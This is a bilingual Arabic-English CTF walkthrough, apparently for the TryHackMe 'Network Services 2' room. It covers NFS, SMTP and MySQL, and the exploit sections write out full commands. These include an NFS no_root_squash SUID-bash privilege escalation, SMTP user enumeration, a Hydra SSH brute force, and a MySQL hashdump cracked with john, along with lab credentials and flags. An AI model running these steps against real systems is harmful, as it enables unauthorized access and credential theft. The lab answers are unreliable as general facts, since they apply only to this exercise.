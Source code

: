 # Network Services_2

<details>
  <summary>NFS</summary>

<details>
  <summary>understanding</summary>

# 🧠 ما هو NFS؟

**NFS** هو بروتوكول يسمح لجهاز بمشاركة ملفات أو فولدرات مع جهاز آخر على نفس الشبكة.
على سبيل المثال، إذا كان لديك سيرفر يحتوي على ملفات، يمكنك من جهاز آخر "تركيب" (mount) هذا الفولدر ورؤية الملفات وكأنها موجودة على جهازك.

---

# 🛠️ كيف يعمل NFS؟

1. **العميل (Client)** يطلب تركيب (mount) فولدر من السيرفر.
2. **السيرفر** يتحقق مما إذا كان العميل يملك صلاحيات.
3. إذا كانت الصلاحيات صحيحة، يقوم السيرفر بإرسال **file handle**.
4. عندما يطلب العميل فتح ملف، يرسل **RPC (Remote Procedure Call)** إلى **NFSD** (خدمة NFS على السيرفر).

### يتضمن الطلب:

* File Handle
* اسم الملف
* User ID و Group ID (لتحديد الصلاحيات)

بعدها يقرر السيرفر ما إذا كان هذا المستخدم يملك صلاحية القراءة أو الكتابة على الملف.

---

# 💻 من يمكنه استخدام NFS؟

يدعم NFS أنظمة تشغيل مختلفة، مثل:

* Linux (لينكس)
* Windows (ويندوز – خاصة Windows Server)
* macOS (ماك)
* UNIX (يونيكس)

مما يسمح بنقل الملفات بين الأنظمة بسهولة وبدون مشاكل.

---

# 📚 مصادر للتعمق:

* [Oracle Docs](https://docs.oracle.com/...)
* [Datto](https://www.datto.com/...)
* [Arch Wiki](https://wiki.archlinux.org/...)

---

# 🎯 NFS في مجال الهاكينج

في اختبارات الاختراق (مثل CTFs)، قد تجد أن السيرفر يشارك مجلدات عبر NFS، وغالبًا ما يكون الإعداد ضعيف الأمان:

* يمكنك العثور على ملفات تحتوي على كلمات مرور.
* أو تركيب المجلد بصلاحيات أعلى من المفترض.
* أو حتى الكتابة على السيرفر، مما قد يؤدي إلى:

  * **Privilege Escalation** (تصعيد الصلاحيات)
  * **Persistence** (الاحتفاظ بالوصول)

  
</details>
---
<details>
  <summary>enumerating</summary>


# 🗂️ NFS Enumeration — TryHackMe

## 💥 ما هي Enumeration؟

**Enumeration** هي المرحلة اللي بتبدأ فيها تتفاعل مع الهدف بعد ما تعرف أنه شغال. هدفها جمع أكبر قدر من المعلومات مثل:
- البورتات المفتوحة
- الخدمات الشغالة
- الملفات أو الصلاحيات المتاحة
- المشاركة عبر الشبكة (مثل NFS)

---

## 🛠️ الأدوات المطلوبة: nfs-common

### 📦 لتثبيت الأداة:
```bash
sudo apt update && sudo apt install nfs-common -y
```

### أهم الأدوات داخل `nfs-common`:
- `showmount` → لمعرفة الـ shares المتاحة.
- `mount` → لتركيب الـ NFS share على جهازك.

---

## 🔍 فحص البورتات (Port Scanning)

استخدم `nmap` لاكتشاف البورتات والخدمات، خصوصًا NFS (عادةً على بورت 2049):

```bash
nmap -A -p- 10.10.x.x
```

- `-A` → تشغيل الكشف عن النظام والخدمات
- `-p-` → فحص كل البورتات (1 إلى 65535)

---

## 📂 تركيب (Mount) NFS Share

### 1️⃣ إنشاء مجلد محلي:
```bash
mkdir /tmp/mount
```

### 2️⃣ تركيب الـ NFS Share:
```bash
sudo mount -t nfs <IP>:<share> /tmp/mount/ -nolock
```

#### مثال:
```bash
sudo mount -t nfs 10.10.254.46:/shared /tmp/mount/ -nolock
```

---

### 💬 شرح الأمر:

| الجزء               | معناه                                                      |
|---------------------|-------------------------------------------------------------|
| `sudo`              | تشغيل الأمر كـ root                                         |
| `mount`             | أمر تركيب الملفات                                           |
| `-t nfs`            | تحديد أن النوع NFS                                          |
| `IP:share`          | عنوان السيرفر ومسار المشاركة                                |
| `/tmp/mount/`       | المكان اللي هيظهر فيه الشير عندك                            |
| `-nolock`           | تجاوز مشاكل locking (مفيد في CTF)                          |

---

## 🧠 الخلاصة

- Enumeration هي خطوة أساسية قبل الهجوم.
- NFS يسمح بمشاركة ملفات عبر الشبكة.
- استخدم `showmount` و `mount` لتصفح وسحب الملفات.



---


```
nmap -A -p- 10.10.58.68
```

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-05 18:00 EDT
Stats: 0:01:53 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 52.26% done; ETC: 18:03 (0:01:43 remaining)
Nmap scan report for 10.10.58.68
Host is up (0.089s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 89:ce:8b:ba:18:15:4e:df:4a:72:ff:fa:f5:79:fa:07 (RSA)
|   256 11:34:2c:a1:57:23:ad:dd:d3:87:ca:46:64:55:10:fc (ECDSA)
|_  256 40:ae:b7:7d:8a:88:75:b1:64:e6:80:d3:6a:d2:a0:f9 (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34617/udp6  mountd
|   100005  1,2,3      41543/tcp6  mountd
|   100005  1,2,3      47131/udp   mountd
|   100005  1,2,3      55605/tcp   mountd
|   100021  1,3,4      37739/tcp   nlockmgr
|   100021  1,3,4      44665/tcp6  nlockmgr
|   100021  1,3,4      55473/udp6  nlockmgr
|   100021  1,3,4      58643/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
37739/tcp open  nlockmgr 1-4 (RPC #100021)
42227/tcp open  mountd   1-3 (RPC #100005)
51739/tcp open  mountd   1-3 (RPC #100005)
55605/tcp open  mountd   1-3 (RPC #100005)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   86.46 ms 10.8.0.1
2   88.57 ms 10.10.58.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 269.36 seconds

```

---

```
/usr/sbin/showmount -e 10.10.58.68
```

![image](https://github.com/user-attachments/assets/48c71fcb-0ecd-42db-a5fa-6d80aa6a09c0)

---

```
mkdir /tmp/mount
sudo mount -t nfs 10.10.58.68:/home /tmp/mount/ -nolock
```

![image](https://github.com/user-attachments/assets/b05502a0-f46b-462b-9b34-5ad2f3002891)

---
![image](https://github.com/user-attachments/assets/84239b60-0a24-493b-81f9-3aadfd463125)


![image](https://github.com/user-attachments/assets/806ef472-f80d-4c63-85bd-46a34dee8518)






```
ssh -i id_rsa cappucino@10.10.58.68
```

![image](https://github.com/user-attachments/assets/dc237cc6-0734-49e3-8769-633bd86245af)









  
</details>
---
<details>
  <summary>exploiting</summary>



# 🚀 NFS Privilege Escalation via Root Squash Misconfiguration

## 🧠 ما هو Root Squash؟

`root_squash` هو إعداد في NFS يمنع المستخدمين اللي يدخلوا من أجهزة خارجية من استخدام صلاحيات root.

- ✅ إذا كان **مُفعل**: أي اتصال من مستخدم root → يتحول تلقائيًا إلى مستخدم `nfsnobody`
- ❌ إذا كان **غير مُفعل** (misconfigured): يسمح للمستخدم يرفع ملفات ويعطيها صلاحيات root، وده خطر جدًا!

---

## 🔐 ما هو SUID؟

**SUID (Set User ID)**: لما يكون ملف تنفيذي عليه SUID، أي حد يشغله بيشتغل بنفس صلاحيات صاحب الملف (مثل root).

### مثال:
```bash
chmod +s bash
ls -l bash
# -rwsr-xr-x 1 root root 1183448 Jun  5 13:15 bash
```

هنا `s` معناها SUID مفعّل.

---

## 🧨 الهجوم خطوة بخطوة:

### ✅ الخطوة 1: نزل ملف bash من جهاز الضحية

لو عندك key لل SSH:
```bash
scp -i id_rsa username@10.10.58.68:/bin/bash ~/Downloads/bash
```

أو تقدر تحمله من الإنترنت (إذا مشيت معاك):
```bash
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
chmod +x bash
```

---

### ✅ الخطوة 2: ارفع bash إلى الـ NFS Share

افترض إنك عملت mount للـ NFS في `/mnt/nfs`:
```bash
cp bash /mnt/nfs/bash
```

---

### ✅ الخطوة 3: عيّن صلاحيات SUID

```bash
chmod +s /mnt/nfs/bash
ls -l /mnt/nfs/bash
# -rwsr-xr-x 1 root root ... bash
```

---

### ✅ الخطوة 4: اتصل بالجهاز عبر SSH

```bash
ssh -i id_rsa username@10.10.58.68
```

---

### ✅ الخطوة 5: شغّل الباش اللي عليه SUID بصلاحيات root

```bash
/mnt/nfs/bash -p
```

💥 وهتلاحظ إنك بقيت root:

```bash
whoami
# root
```

---

## 🔁 الخلاصة: مسار التصعيد الكامل

```text
NFS Access
    ↓
Low Privilege Shell
    ↓
Upload Bash Executable to the NFS Share
    ↓
Set SUID Bit via NFS
    ↓
Login via SSH
    ↓
Execute Bash with -p
    ↓
🎯 Root Access Achieved
```

---

## 📌 ملاحظات مهمة:

- تأكد من أن المجلد في NFS mounted عندك.
- تأكد من صلاحيات الـ share (إنه بيقبل SUID).
- استخدم `bash -p` دايمًا لتشغيل shell بـ privileges.





----

```
cat /etc/exports
```

![image](https://github.com/user-attachments/assets/c57c6be9-b09b-4569-97ed-7fb7e7db9e1e)

found ``/home           *(rw,no_root_squash)``


----

```
scp -i id_rsa username@10.10.58.68:/bin/bash ~/Downloads/bash
```

```
sudo cp ~/Downloads/bash /tmp/mount/bash
```

```
sudo chmod +s /tmp/mount/bash
```

![image](https://github.com/user-attachments/assets/41d82a35-4ba7-4415-9cff-118f76b08141)


```
ssh -i id_rsa cappucino@10.10.58.68
```

now run ``bash`` file :


![image](https://github.com/user-attachments/assets/ff131676-ca3a-4bd1-9584-cdfb7b2ff56d)


```
THM{nfs_got_pwned}
```

# الخلاصه 

1. إحنا ركّبنا مجلد من السيرفر عن طريق الـ NFS.
2. في السيرفر ده، إعداد الـ NFS مش مفعل root_squash.
3. يعني لو أنا من جهازي رفعت ملف لمجلد الـ NFS وملّكته للـ root → السيرفر هيحترم ده!
4. فإحنا:
5. نسخنا نسخة من bash
6. حطيناها في /tmp/mount/bash
7. وفعّلنا عليها SUID
8. لما نرجع نسجل دخول عادي على السيرفر:
9. ونجرب نشغّل /tmp/mount/bash -p
10. هيشتغل كأننا root!









  
</details>


</details>

-------------------------------------------------------------------------------------------------------------------------------------------

<details>
  <summary>SMTP</summary>

<details>
  <summary>understanding</summary>



# 📧 What is SMTP?

## 🔹 تعريف SMTP

**SMTP** اختصار لـ **Simple Mail Transfer Protocol**، وهو البروتوكول المسؤول عن **إرسال الرسائل الإلكترونية (Emails)** بين السيرفرات.

> تخيل إنك بتبعت رسالة بالبريد، SMTP هو ساعي البريد اللي بياخد الرسالة ويوصلها للسيرفر الخاص بالمستلم.

---

## 🔸 لماذا نحتاج SMTP و POP/IMAP معًا؟

- **SMTP**: لإرسال الرسائل 📤
- **POP/IMAP**: لاستلام الرسائل 📥

> عند إعداد إيميل جديد في برنامج مثل Outlook أو Thunderbird، نحتاج إعداد:
- SMTP (للإرسال)
- IMAP أو POP (للاستلام)

---

## 🔸 وظائف سيرفر SMTP

1. التحقق من هوية الراسل.
2. إرسال الرسالة إلى السيرفر المستلم.
3. إعادة رسالة خطأ إذا لم يتم التوصيل.

---

## 🔸 الفرق بين POP و IMAP

| العنصر | POP | IMAP |
|--------|-----|------|
| الاسم | Post Office Protocol | Internet Message Access Protocol |
| الوظيفة | تحميل الرسائل من السيرفر للجهاز | مزامنة الرسائل بين السيرفر وكل الأجهزة |
| العيب | قد تُحذف الرسائل من السيرفر | تبقى الرسائل على السيرفر |
| الأفضلية | لجهاز واحد | لأجهزة متعددة |

---

## 🔸 كيف يعمل SMTP؟

### 📤 خطوات إرسال الإيميل:

1. برنامج الإيميل يتصل بسيرفر SMTP (مثل smtp.gmail.com) عبر بورت 25.
2. يرسل العناوين، نص الإيميل، والمرفقات.
3. السيرفر يتحقق من الدومين.
4. إن لم يكن نفس الدومين، يتم الاتصال بسيرفر المستلم.
5. لو السيرفر غير متاح → يدخل الإيميل قائمة الانتظار.
6. السيرفر المستقبل يتحقق ويرسل الرسالة إلى POP/IMAP.
7. الإيميل يظهر في Inbox المستلم.

---

## 🔸 مثال عملي

كتبت إيميل في Gmail وضغطت Send:
- Gmail يستخدم SMTP لإرساله لسيرفر المستلم.
- المستلم يستخدم IMAP/POP لاستلامه.

---

## 🔸 البرامج التي تدعم SMTP

- **Windows Server** يحتوي على SMTP مدمج.
- **Linux** يدعم برامج مثل:
  - Postfix
  - Sendmail
  - Exim

---

## 🔗 مصادر للتوسع

- [HowStuffWorks: شرح مبسط](https://computer.howstuffworks.com/e-mail-messaging/email3.htm)
- [AfterNerd: شرح تقني أعمق](https://www.afternerd.com/blog/smtp/)


---

![image](https://github.com/user-attachments/assets/6cd824ef-02f9-4e20-8abe-8f5b3b94076e)



  
</details>
---
<details>
  <summary>enumerating</summary>

# 📧 SMTP Enumeration Guide

## 💡 الفكرة العامة

أنت دلوقتي هتشتغل على سيرفر SMTP (سيرفر إرسال بريد)، وغرضك تعمل Enumeration علشان:

- تعرف معلومات عن السيرفر (النوع والإصدار)
- تستخرج أسماء المستخدمين اللي على السيرفر (User Enumeration)

وده بيساعدك كخطوة أولى لاختراق شبكة.

---

## 🔧 قبل ما نبدأ

- شغل المعمل (Deploy the room) من المنصة اللي شغال عليها.
- استنى شوية لحد ما السيرفر يكون جاهز (غالبًا بياخد 3-5 دقايق).
- تأكد إنك شغال على Kali Linux أو Parrot OS (فيهم Metasploit جاهز).

---

## 🕵️‍♂️ مرحلة 1: تحديد نوع السيرفر (Fingerprinting)

### أداة: `smtp_version` من Metasploit

- الوظيفة: بتحدد نوع ونسخة سيرفر الـSMTP.
- مفيدة علشان تعرف هل فيه ثغرات معروفة للسيرفر ده.

### الخطوات:

```bash
msfconsole
use auxiliary/scanner/smtp/smtp_version
set RHOSTS [IP]
run
```


## 👥 مرحلة 2: استكشاف المستخدمين (User Enumeration)
طريقتين:
* يدوي (بـ Telnet)

* تلقائي (بـ Metasploit أو أدوات خارجية)



---

### ✋ يدويًا (عن طريق Telnet)
اتصل بسيرفر SMTP:
```
telnet [IP] 25
```

استخدم أوامر مثل:

```
VRFY username
EXPN listname
RCPT TO:<username@target.com>
```

### 🤖 تلقائيًا باستخدام Metasploit (smtp_enum)
وظيفة الموديول:

* يجرب لستة يوزرات (wordlist) على السيرفر.

* يستخدم أوامر SMTP زي VRFY و RCPT TO.

* بيردلك بمين موجود ومين لأ.

```
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS [IP]
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
run
```


## 🧰 بدائل لـ Metasploit
لو مش عايز تستخدم Metasploit (مثلاً بتحضر لـ OSCP)، فيه أداة اسمها:


### 🔸 smtp-user-enum

التثبيت:

```
sudo apt install smtp-user-enum
```

الاستخدام:

```
smtp-user-enum -M VRFY -U users.txt -t [IP]
```

تقدر تغير ``-M`` لـ:

* ``VRFY`` → لتأكيد اسم المستخدم

* ``EXPN`` → لإظهار أعضاء mailing lists

* ``RCPT`` → لمحاولة إرسال رسالة للعنوان



### ✅ خلاصة



| الخطوة                      | الأدوات                                   |
| --------------------------- | ----------------------------------------- |
| معرفة إصدار السيرفر         | Metasploit (smtp\_version)                |
| استكشاف المستخدمين يدويًا   | Telnet + أوامر VRFY/EXPN/RCPT             |
| استكشاف المستخدمين تلقائيًا | Metasploit (smtp\_enum) أو smtp-user-enum |








-----

```
nmap -sCV 10.10.152.44 
```
```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-06 10:14 EDT
Nmap scan report for 10.10.152.44
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f0:d6:e6:02:ac:4b:ce:1f:16:b0:c0:94:3c:8e:5b:e4 (RSA)
|   256 2a:a4:78:e2:16:2b:59:1a:3a:ac:28:d9:0d:76:39:ab (ECDSA)
|_  256 0f:70:81:e2:0b:1a:12:69:1b:ef:9b:ec:d4:00:7b:4f (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: polosmtp.home, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
| ssl-cert: Subject: commonName=polosmtp
| Subject Alternative Name: DNS:polosmtp
| Not valid before: 2020-04-22T18:38:06
|_Not valid after:  2030-04-20T18:38:06
|_ssl-date: TLS randomness does not represent time
Service Info: Host:  polosmtp.home; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds

```

---

```
msfconsole
search smtp_version
```
```
auxiliary/scanner/smtp/smtp_version
```

after that :

```
use 0
show options
```
![image](https://github.com/user-attachments/assets/e01f6429-5c7a-4cf5-91a8-5339f25b5840)


```
set RHOSTS 10.10.152.44
```
```
run
```

![image](https://github.com/user-attachments/assets/622b5770-35b9-41c7-a0fd-e0169f225752)


![image](https://github.com/user-attachments/assets/7bb1ce01-64b0-4e82-8e56-db1e248fc5b5)

```
search smtp_enum
```

``found``

```
auxiliary/scanner/smtp/smtp_enum
```

```
use 0
```

```
set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
```

![image](https://github.com/user-attachments/assets/41a3e00f-1838-4ff9-8993-d402a1afdcfc)


```
run
```

![image](https://github.com/user-attachments/assets/f186a255-228c-4060-8613-5709a3176ee1)

```
administrator
```



  
</details>
---
<details>
  <summary>exploiting</summary>


# 🔐 SSH Brute-Force using Hydra

## 💡 What Do We Know?
From previous enumeration steps, we have discovered:
- ✅ A valid **username**
- ✅ The SMTP server is **Postfix** on **Ubuntu**
- ✅ The only other open port is **SSH (port 22)**

Now we'll use this information to try to **brute-force the SSH password** for the discovered user using **Hydra**.

---

## ⚙️ Preparation Steps

- Exit Metasploit (`exit` command).
- Ensure you have the Hydra tool (comes pre-installed on Kali/Parrot OS).
- Make note of the:
  - Target IP (e.g., `10.10.152.44`)
  - Valid username
  - Path to your password wordlist

---

## 🛠️ Hydra Command Syntax

```
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.152.44 ssh
```

### 📌 Command Breakdown

| Option                  | Description                                                  |
|-------------------------|--------------------------------------------------------------|
| `hydra`                 | Runs the Hydra tool                                          |
| `-t 16`                 | Number of parallel threads (increases speed)                |
| `-l [USERNAME]`         | The username you're trying to crack                         |
| `-P [wordlist_path]`    | Path to the password dictionary file                        |
| `-vV`                   | Very verbose output (prints every attempt)                  |
| `[TARGET_IP]`           | IP address of the target machine                            |
| `ssh`                   | The protocol to brute-force                                 |

---




----

```
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.152.44 ssh
```

![image](https://github.com/user-attachments/assets/ea5bf18a-49e6-4834-ae0a-ec002d750ab0)

```
alejandro
```

now login using ssh 

```
ssh administrator@10.10.152.44
```

![image](https://github.com/user-attachments/assets/f4d37c42-df6b-4620-b602-4e97ac2f4f10)

```
THM{who_knew_email_servers_were_c00l?}
```
  
</details>


</details>

-------------------------------------------------------------------------------------------------------------------------------------------

<details>
  <summary>MYsql</summary>

<details>
  <summary>understanding</summary>


# 📚 Introduction to MySQL

## 🔍 What is MySQL?
MySQL is a **Relational Database Management System (RDBMS)** that uses **SQL (Structured Query Language)** to store and manipulate data.

---

## 📦 Key Concepts

### 🗂️ Database
A structured and persistent collection of data. Example: storing users, orders, and products for a website.

### 🧠 RDBMS (Relational Database Management System)
Manages databases in **table format**, where:
- **Primary Key**: Uniquely identifies each row in a table.
- **Foreign Key**: Links data between tables.

### 📝 SQL (Structured Query Language)
Language used to interact with databases. Examples:
- `SELECT`: Fetch data
- `INSERT`: Add data
- `UPDATE`: Modify data
- `DELETE`: Remove data

---

## ⚙️ How MySQL Works

1. **Server**: Handles all data operations.
2. **Client**: Sends SQL commands to the server (e.g., PHP script).
3. **Communication**: Happens via SQL queries.

### Process Flow:
- Create the database
- Define tables and relationships
- Client sends SQL queries
- Server processes and returns results

---

## 🖥️ Platforms

MySQL works on:
- Linux
- Windows
- macOS

It's widely used in web development and forms a core part of the **LAMP stack**:
- **L**inux
- **A**pache
- **M**ySQL
- **P**HP/Python

---

## 🎓 More Resources

- [MySQL SQL Execution Internals](https://dev.mysql.com/doc/dev/mysql-server/latest/PAGE_SQL_EXECUTION.html)
- [W3Schools - PHP + MySQL](https://www.w3schools.com/php/php_mysql_intro.asp)

---

## 🧠 Summary

| Concept   | Description |
|-----------|-------------|
| MySQL     | System to manage relational databases |
| SQL       | Language for communicating with databases |
| RDBMS     | Organizes data into related tables |
| Server & Client | Server stores and processes data; client sends requests |


---

![image](https://github.com/user-attachments/assets/c845c6aa-7834-408c-981e-947a420bf240)




  
</details>
---
<details>
  <summary>enumerating</summary>


# 🚀 Starting MySQL Enumeration & Exploitation

## ✅ Before You Begin
- Deploy the room on TryHackMe.
- Wait 3–5 minutes for the target VM to boot.
- Make sure you have:
  - MySQL Client
  - Metasploit (default on Kali/Parrot)

## 🧠 When Do You Attack MySQL?
MySQL is **not usually the first target** in real scenarios.  
But if you discover credentials (e.g., from a subdomain), **try them against MySQL**.

---

## 🎭 Scenario (from this room)
You found credentials:
```
Username: root
Password: password
```
- Tried SSH: ❌ Failed  
- Tried MySQL: ✅ This is where it works

---

## 🛠️ Requirements

### Install MySQL client (if not already installed):
```bash
sudo apt install default-mysql-client
```

### Connect to MySQL:
```bash
mysql -h 10.10.152.111 -u root -p
```

### If SSL error occurs:
```bash
mysql -h 10.10.152.111 --ssl-mode=DISABLED -u root -p
```

---

## 💣 Using Metasploit
- Great for automated MySQL enumeration.
- Easy to use with modules like `mysql_login` and `mysql_enum`.

### But! Try to **understand the process** behind the modules.

---

## 🧰 Alternatives to Metasploit

### 🔹 Nmap Script for MySQL
```bash
nmap -p 3306 --script mysql-enum <target-ip>
```

### 🔹 Exploit-DB Script
[Exploit 23081 - MySQL Enumeration](https://www.exploit-db.com/exploits/23081)

---

## 🎯 Final Goal
- Connect to MySQL using found credentials.
- Enumerate the service (users, databases, privileges).
- Understand what Metasploit does under the hood.
- Try manually later to build deeper understanding.

---

**Now you’re ready — jump in and break into MySQL! 🔥**



----

```
nmap -sCV 10.10.152.111
```

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-06 12:34 EDT
Nmap scan report for 10.10.152.111
Host is up (0.096s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fd:7c:26:3c:b6:33:4b:dc:28:c8:3c:c8:64:f6:c9:f5 (RSA)
|   256 ae:df:e4:25:cc:be:68:0c:c1:44:17:45:d1:d0:2c:3d (ECDSA)
|_  256 9a:6b:fb:20:50:85:7f:bd:67:88:c7:45:83:1a:1b:b0 (ED25519)
3306/tcp open  mysql   MySQL 8.0.42-0ubuntu0.20.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.42-0ubuntu0.20.04.1
|   Thread ID: 9
|   Capabilities flags: 65535
|   Some Capabilities: ConnectWithDatabase, Support41Auth, Speaks41ProtocolOld, SupportsCompression, ODBCClient, SupportsTransactions, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, LongPassword, LongColumnFlag, SupportsLoadDataLocal, FoundRows, InteractiveClient, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: t\x13z\x0C'v#i\x1CZ\x12\x02
| B\#q\x113Q
|_  Auth Plugin Name: caching_sha2_password
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_5.7.29_Auto_Generated_Server_Certificate
| Not valid before: 2020-04-23T10:13:27
|_Not valid after:  2030-04-21T10:13:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.75 seconds
```

---

``root : password``

```
mysql --ssl=0 -h 10.10.152.111 -u root -p
```

![image](https://github.com/user-attachments/assets/05e0b9e6-3f34-4efd-96df-4db9a9fa5bb7)

use ``mysql`` database and show tabels

![image](https://github.com/user-attachments/assets/9b27eddf-05b6-4b79-87f9-a337d6ed299d)


```
exit
```

now using metasploit

```
mfsconsole
```
```
search mysql_sql
use 0
```

![image](https://github.com/user-attachments/assets/39c5c57d-8fc2-4b5c-bf22-cd4e4adb4d95)

```
set username root
set password password
set rhosts 10.10.152.111
run
```

![image](https://github.com/user-attachments/assets/279b1767-8131-444e-8bdd-475c227e72b2)


```
set SQL show databases
```


![image](https://github.com/user-attachments/assets/31ed13bf-b4c3-4a57-b224-167d07dbe483)


  
</details>
---
<details>
  <summary>exploiting</summary>

# شرح عن الـ Hashes في MySQL وأهميتها

## 🧠 المفاهيم الأساسية

### 1. ما هو الـ Hash؟
الـ Hash هو ناتج تشفير لمعلومة، زي كلمة السر، بيحولها لسلسلة من الأحرف والأرقام بطول ثابت.  
الميزة إنه من الصعب ترجعه للنص الأصلي.

### 2. استخدام الـ Hash في MySQL
- تخزين كلمات السر مش كنص عادي، بل كـ Hash  
- استخدام الـ Hash في فهرسة البيانات أو التحقق من صحة المعلومات.

---

## 🎯 الهدف من استخراج الـ Hashes

- الحصول على كلمات سر مشفرة للمستخدمين  
- محاولة كسر هذه الـ Hashes (باستخدام أدوات زي hashcat أو john)  
- محاولة الدخول بحسابات المستخدمين على خدمات تانية (SSH، FTP، الخ)

---

## 🚀 خطوات العمل

1. البحث عن جداول مستخدمين محتملة:  
    أمثلة: users, login, accounts

2. استعراض الحقول داخل الجدول:  
    خصوصًا اللي بتحتوي على username, password, hash

3. استخراج الـ hashes واستخدام أدوات الكسر عليها.

---

## مثال أوامر SQL:

```sql
SHOW DATABASES;

USE users_database;

SHOW TABLES;

SELECT username, password FROM users;

```



---
---

``on metasploit``

```
search mysql_schemadump
```


![image](https://github.com/user-attachments/assets/45f89bc1-b1cc-4b8f-8f92-77fe7d5eae32)


```
run
```
![image](https://github.com/user-attachments/assets/f05fc82b-7c69-49ac-a38f-07c6ce81d517)

```
x$waits_global_by_latency
```

```
search mysql_hashdump
```

![image](https://github.com/user-attachments/assets/ba7bde52-5fbd-49b0-9c51-12033ace20f3)


```
set username root
set password password
set rhosts 10.10.152.111
run
```

![image](https://github.com/user-attachments/assets/f9201589-c795-42e8-ad02-9b70d48fcc76)


```
nano mysql_hash
```
```
carl:*EA031893AA21444B170FC2162A56978B8CEECE18
```

```
john mysql_hash 
```

![image](https://github.com/user-attachments/assets/bc20aa32-9f37-4917-8f39-e4f4bfe3d386)

now login using ``ssh``

```
ssh carl@10.10.152.111
```

![image](https://github.com/user-attachments/assets/77b0e39a-1a18-4459-97dd-b7a22a53a246)


```
THM{congratulations_you_got_the_mySQL_flag}
```

  
</details>


</details>

-------------------------------------------------------------------------------------------------------------------------------------------
